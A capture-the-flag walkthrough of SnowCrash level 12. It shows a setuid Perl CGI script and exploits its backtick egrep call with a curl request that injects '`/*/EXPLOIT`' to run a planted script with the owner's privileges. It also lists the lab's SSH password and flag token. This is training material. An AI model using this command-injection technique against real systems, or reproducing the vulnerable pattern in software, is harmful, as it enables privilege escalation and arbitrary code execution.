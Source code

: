 # Level12

## How to login

```bash
ssh level12@192.168.1.184 -p 4242
password: fa6v5ateaw21peobuub8ipe6s
```

## How to get the flag

Once logged, we find a file called 'level12.pl' in the home holder that seems to be a Perl script that uses the CGI (Common Gateway Interface) module to handle web requests. As previous exercises, the binary has the Setuid bit set, meaning that it will be executed with the privileges of the file owner even when run by another user, which can lead to security risk and potential exploitation.
```bash
level12@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x+ 1 flag12 level12 464 Mar  5  2016 level12.pl
level12@SnowCrash:~$ cat level12.pl
```
```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

The code analysis show us that the script is listening on localhost:4646 and takes two parameters, x and y, from a web request. It transforms x to uppercase and removes whitespace and trailing characters, then runs egrep "^$x" /tmp/xd to search for lines in /tmp/xd starting with the processed x. It checks if any matching line contains y after a : and returns 1 for a match or 0 for no match, printing .. for a match or . for no match.

In this scenario, command injection is not directly possible because the input ($xx) is sanitized by converting it to uppercase and removing whitespace and trailing characters, which eliminates most shell metacharacters. For example, if we try to inject a command like 'getflag', it would be transformed into 'GETFLAG', which would not be valid for execution.

We have to find another strategy to inject and execute code through "^$xx". So, after some thought, we find another way consisting in the creation of a script that will be executed through "^$xx" as shown below.
```
level12@SnowCrash:~$ echo 'getflag > /tmp/flag' > /tmp/EXPLOIT
level12@SnowCrash:~$ chmod +x /tmp/EXPLOIT
```

Once the bash script has been created, we use the command 'curl' together with the info obtained previously about the address and port. It's important to add backticks to the script in order to be executed and to add the wildcard '*' to match any directory, so the exploit can be found. We are successful and the flag is found.
```
level12@SnowCrash:~$ curl localhost:4646/?x='`/*/EXPLOIT`'
..level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```

The key point is that the exploit bypasses the script’s intended behavior (searching /tmp/xd) and instead executes a completely different command (/*/EXPLOIT). This is achieved by injecting a command with backticks and using a wildcard to locate the exploit script. The exploit also works because the script’s sanitization does not remove backticks or wildcards, allowing the attacker to execute arbitrary commands indirectly.
